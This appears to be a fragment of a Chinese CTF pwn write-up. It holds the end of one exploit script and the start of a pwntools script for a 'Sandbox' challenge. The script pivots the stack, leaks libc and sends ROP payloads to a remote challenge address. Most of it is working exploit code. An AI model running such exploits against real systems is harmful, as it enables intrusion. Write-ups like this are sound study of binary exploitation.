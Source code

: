 ```plain
ru('life?\n')
s(b'\n')

pl=p64(bss4+0x30)+p64(pop_r12)+p64(0)+p64(og)
#dbg()
s(pl)

itr()
```

‍

### 黄河流域-Sandbox

同上一题只有0x10大小构造，优先考虑栈迁移

泄露libc地址后，构造rop链来orw

由于read读入空间不够，orw分两次送入

```plain
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

#r=process('./pwn')
r=remote('1.13.251.106',8002)
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)


pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)
```